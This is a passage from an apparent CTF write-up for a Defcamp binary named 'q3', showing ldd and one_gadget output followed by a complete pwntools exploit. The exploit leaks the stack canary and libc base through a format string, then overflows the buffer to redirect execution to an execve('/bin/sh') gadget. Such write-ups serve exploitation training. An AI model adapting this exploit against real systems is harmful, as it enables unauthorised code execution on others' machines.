 ```asm
robin@oracle:~/CTFs/Defcamp$ ldd q3
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff77e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd5000)
robin@oracle:~/CTFs/Defcamp$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

I'll be using the first one `0x4f2c5`. Now, it's time to pwn:-


### Final Exploit

We have almost everything, now it's time for final exploit:-

Here's the idea, I'll be using the format string specifier to leak canary and libc address and then use the stack canary value to send the payload and using the libc address offset we will get the one_gadget address and we are done.

```python
#!/usr/bin/env python2

from pwn import *

# stack canary is at offset 11 for format string
# It is at offset 24 for buffer overflow

BINARY = './q3'

elf = ELF(BINARY)
context.arch = 'amd64'
libc = elf.libc
p = process("./q3")

# Leak stack canary (offset 11) and the libc address (offset 3)
p.sendline('%11$lx-%3$lx')
p.recvline()
leaks = p.recvline()
stack_canary = int(leaks.split('-')[0], 16) # Stack Canary
libc.address = int(leaks.split('-')[1][:-1], 16) - 0x110154  # LIBC offset we found earlier 

log.info('canary: ' + hex(stack_canary))
log.info('libc base: ' + hex(libc.address))

one_gadget = libc.address + 0x4f2c5 # using one_gadget 
log.info('one_gadget: ' + hex(one_gadget))

payload = 'A'*24 # Write up to the stack canary
payload += p64(stack_canary) # Ensure we don't change the stack canary
payload += 'B'*8 # Overwrite RBP to reach upto RIP
payload += p64(one_gadget) # Overwrite RIP with pre-made shell

p.sendline(payload)

p.interactive()
```